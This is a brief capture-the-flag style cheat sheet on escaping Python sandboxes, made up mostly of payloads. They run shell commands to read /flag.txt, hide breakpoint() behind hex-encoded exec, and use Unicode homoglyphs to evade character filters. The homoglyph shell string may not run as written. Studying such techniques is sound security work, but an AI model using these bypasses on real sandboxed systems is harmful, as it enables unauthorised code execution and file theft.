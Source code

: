 ```yaml
---
title: "Python Jailbreak Techniques"
date: "2025-06-25"
---
```


```
# Python Jailbreak Techniques: Three Levels of Escalation

## 1. Baby Jail
**Scenario**: No restrictions, simplest bypass

**Solutions**:
```python
open("/flag.txt").read()
```
```python
__import__('os').system("cat /flag.txt")
```

## 2. Bahri Jail 
**Scenario**: Basic character restrictions

**Solution**: Hex-encoded breakpoint()
```
exec(bytes.fromhex('627265616b706f696e7428')) # breakpoint()
```
Then in debugger:
```python
import os; os.system("cat /flag.txt")
```

## 3. Silent Jail
**Scenario**: All alphanumerics banned (A-Z,a-z,0-9)

**Solution**: Unicode homoglyph attack
```python
𝘣𝘳𝘦𝘢𝘬𝘱𝘰𝘪𝘯𝘵()  # breakpoint() using mathematical sans-serif italic
```
Then in debugger:
```python
𝘪𝘮𝘱𝘰𝘳𝘵 𝘰𝘴; 𝘰𝘴.𝘴𝘺𝘴𝘵𝘦𝘮("𝘤𝘢𝘵 /𝘧𝘭𝘢𝘨.𝘵𝘹𝘵")
```

**Key Notes**:
- Breakpoint() is the universal starting point
- Unicode chars bypass character filters but execute normally
- Hex/bytes encoding bypasses string-based filters

